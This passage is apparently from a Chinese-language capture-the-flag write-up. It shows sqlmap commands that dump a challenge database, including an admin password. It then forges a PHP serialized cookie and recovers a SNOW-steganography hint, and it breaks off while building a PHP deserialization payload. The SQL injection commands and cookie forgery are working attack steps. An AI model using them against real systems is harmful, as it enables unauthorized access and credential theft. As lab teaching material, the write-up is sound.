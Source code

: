 ```
+--------+---------+
| hInt   | text    |
| id     | int(11) |
+--------+---------+

python2 .\sqlmap.py -r 222.txt -p username --dump all -C hInt -T hlnt_2 -D web19
[1 entry]
+-----------------------------------------------+
| hInt                                          |
+-----------------------------------------------+
| a class for you "https://postimg.cc/6274vCP5" |
+-----------------------------------------------+
```
![](http://ww1.sinaimg.cn/large/0074VeWzly1g0afh9mp7nj30zk0a60uf.jpg)
接着注入吧 看看账号密码
```
python2 .\sqlmap.py -r 222.txt -p username --columns -T user -D web19
[3 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| id       | int(11) |
| password | text    |
| username | text    |
+----------+---------+

python2 .\sqlmap.py -r 222.txt -p username -C "id,username,password" -T user -D web19 --dump all
[1 entry]
+----+----------+----------------+
| id | username | password       |
+----+----------+----------------+
| 1  | admin    | p0CLOvesExpT00 |
+----+----------+----------------+
```
登陆 跳转到这里
http://123.206.31.85:10019/eXpl0ve5p0cVeRymuCh/note.php
```
GET /eXpl0ve5p0cVeRymuCh/note.php HTTP/1.1
Host: 123.206.31.85:10019
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: text=O%3A8%3A%22UserInfo%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A5%3A%22admin%22%3Bs%3A8%3A%22password%22%3Bs%3A14%3A%22p0CLOvesExpT00%22%3B%7D; PHPSESSID=igigfrkp4vjvmqpvol3v4mn6kc6615s4
Connection: keep-alive
```
![](http://ww1.sinaimg.cn/large/0074VeWzly1g0ai3ttl0tj31350i5juh.jpg)

这里有很多提示 html隐写 snow隐写
snow.exe  everything搜索得到
view-source:http://123.206.31.85:10019/eXpl0ve5p0cVeRymuCh/note.php
ctrl+s 保存为111.html
`.\SNOW.EXE -C -p ILOveExp 111.html`
flag in /PPPPOOO0CCCC.php
http://123.206.31.85:10019/PPPPOOO0CCCC.php
一片空白
构造跟上面一样的cookie中的text参数 根据那个序列化
还是上面那个请求包
```php
<?php
class ReadFile{
```